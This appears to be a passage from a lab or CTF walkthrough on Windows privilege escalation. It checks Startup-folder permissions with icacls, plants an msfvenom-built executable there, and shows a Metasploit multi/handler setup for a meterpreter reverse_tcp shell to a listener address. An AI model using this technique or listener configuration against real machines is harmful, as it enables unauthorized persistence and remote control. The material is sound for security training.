


### Startup Applications

As wonderful as Powerup.ps1 is, there are some things it can't check.

Checking start up applications requires a different tool.  Start up applications run when the computer starts up.  If we can compromise one of those programs, then we can compromise the device.

`icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`



`icacls.exe` is a built in windows tool used for checking permissions on different things.  The circled Users:(F), specifically the F part, means we have full control (access).

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

This is the full documentation for that tool.

Used msfvenom to craft a payload as an exe file.  Then used python to serve that folder up in a webserver fashion.  Downloaded the payload, dropped it into the startup folder.

Used msfconsole to fire up a listener.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.6.x.x
lhost => 10.6.x.x
```

Change the x's to your local ip.

Once the device is logged into by an administrator, you have your shell :)



